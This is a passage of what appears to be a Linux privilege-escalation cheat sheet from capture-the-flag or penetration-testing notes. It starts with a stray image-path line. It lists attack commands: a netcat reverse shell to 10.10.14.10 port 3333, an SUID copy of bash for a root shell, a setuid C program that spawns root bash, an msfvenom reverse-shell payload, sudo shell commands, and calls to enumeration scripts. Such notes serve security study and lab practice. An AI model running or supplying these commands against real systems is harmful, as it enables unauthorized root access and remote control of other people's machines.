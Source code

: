 >nc.traditional -e /bin/sh '10.10.14.10' '3333'
nc.traditional -e /bin/sh 10.10.14.10 3333

### Bin/bash copy

Create a copy of the /bin/bash executable file (I usually rename it rootbash), make sure it is owned by the root user, and has the SUID bit set.

A root shell can be spawned by simply executing the rootbash file with the -p command line option.

>cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash

>/tmp/rootbash -p

### Compile C Shell

There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

>int main() {
    setuid(0);
    system("/bin/bash -p");
}

Compile using:

> gcc <filename.c> -o <name>

### Msfvenom

> msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf

### SUDO

>sudo /bin/bash
sudo -s
sudo -i

* * *

## **ENUMERATION SCRIPTS**

### LSE.sh

./lse.sh

./lse.sh -l 1 -i

-l : to get more information. 1 is for more and 2 is much more
-i : to avoid the script asking for the user password

### LINUX EXPLOIT SUGGESTER

./linux-exploit-suggester-2.pl -k 2.6
